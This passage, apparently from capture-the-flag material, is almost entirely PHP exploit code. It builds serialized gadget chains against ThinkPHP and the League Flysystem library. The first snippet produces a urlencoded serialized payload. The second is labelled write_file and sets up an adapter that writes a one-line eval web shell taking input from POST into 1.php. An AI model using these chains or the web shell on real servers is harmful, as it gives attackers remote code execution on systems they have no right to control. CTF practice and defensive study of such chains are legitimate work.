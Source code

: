 ```php
    private $force;
    protected $table;
    protected $jsonAssoc;
    function __construct($obj = '')
    {
        $this->lazySave = true;
        $this->withEvent = false;
        $this->exists = true;
        $this->force = true;
        $this->table = $obj;
        $this->jsonAssoc = true;
    }
}

namespace think\model;

use think\Model;

class Pivot extends Model
{
}
$a = new Pivot();
$b = new Pivot($a);

echo urlencode(serialize($b));
```

**write_file**

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2022-05-27 15:32:51
# @Last Modified by:   h1xa
# @Last Modified time: 2022-05-31 20:16:32
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

namespace League\Flysystem\Adapter;

class Local{

}

namespace League\Flysystem\Cached\Storage;

use League\Flysystem\Adapter\local;

class Adapter{
	protected $adapter;
	protected $file;
	protected $cache = [];
	protected $autosave;

	public function __construct(){
		$this->adapter=new Local();
		$this->autosave=false;
		$this->file="1.php";
		array_push($this->cache, '<?php $a=$_POST[1];eval($a);?>');
```